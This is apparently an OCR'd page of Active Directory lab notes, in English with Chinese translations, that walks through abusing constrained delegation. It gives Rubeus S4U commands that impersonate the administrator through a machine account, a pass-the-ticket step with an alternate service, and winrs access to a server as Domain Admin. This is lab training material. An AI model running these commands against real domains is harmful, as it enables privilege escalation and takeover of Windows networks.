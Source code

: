 
Obtain a TGS/Service Ticket for us-mgmt (machine configured with Constrained Delegation) by leveraging the newly created Machine Account (studentcompx)（通过利用新创建的机器帐户 (studentcompx) 为 us-mgmt（配置了约束委派的机器）获取 TGS/服务票证）

```
C:\AD\Tools\Rubeus.exe hash /password:P@ssword@123

C:\AD\Tools\Rubeus.exe s4u /impersonateuser:administrator /user:studentcompX$ /rc4:D3E5739141450E529B07469904FE8BDC /msdsspn:cifs/us-mgmt.us.techcorp.local /nowrap
```

Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step.（利用在上一步中创建的票证请求新的可转发 TGS/服务票证。）

```
C:\AD\Tools\Rubeus.exe s4u /tgs:doIGxjCCBsKgAwIBBaEDAgEWoo... /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /msdsspn:cifs/us-mssql.us.techcorp.local /altservice:http /nowrap /ptt
```

Access the us-mssql using WinRM as the Domain Admin.（使用 WinRM 作为域管理员访问 us-mssql。）
```
winrs -r:us-mssql.us.techcorp.local cmd.exe
```

